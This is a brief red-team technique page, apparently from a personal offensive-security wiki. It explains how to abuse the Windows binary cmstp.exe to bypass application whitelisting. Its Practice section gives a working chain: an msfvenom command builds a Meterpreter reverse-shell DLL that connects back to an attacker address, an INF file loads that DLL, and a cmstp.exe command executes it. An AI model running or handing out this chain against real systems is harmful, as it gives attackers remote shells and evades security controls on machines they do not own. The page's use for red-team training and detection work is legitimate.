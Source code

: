 # CMSTP

## Theory 

Cmstp.exe is a windows binary that allow administrator to installs or removes a Connection Manager service profile. As a red teamer, we can abuse it to execute code and bypass application whitelisting.

## Practice

{% tabs %}
{% tab title="cmstp.exe" %}

First, generate a reverse shell as dll
```bash
v4resk@kali$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > /root/tools/mitre/cmstp/evil.dll
```
Creating a file that will be loaded by CSMTP.exe binary that will in turn load our evil.dll:
```bash
#f.inf
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
C:\experiments\cmstp\evil.dll
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="mantvydas"
ShortSvcName="mantvydas"
```

Now, we can invoke the payload:
```bash
PS C:\experiments\cmstp> cmstp.exe /s .\f.inf
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://tryhackme.com/room/livingofftheland" %}
{% embed url="https://www.ired.team/offensive-security/code-execution/t1191-cmstp-code-execution" %}
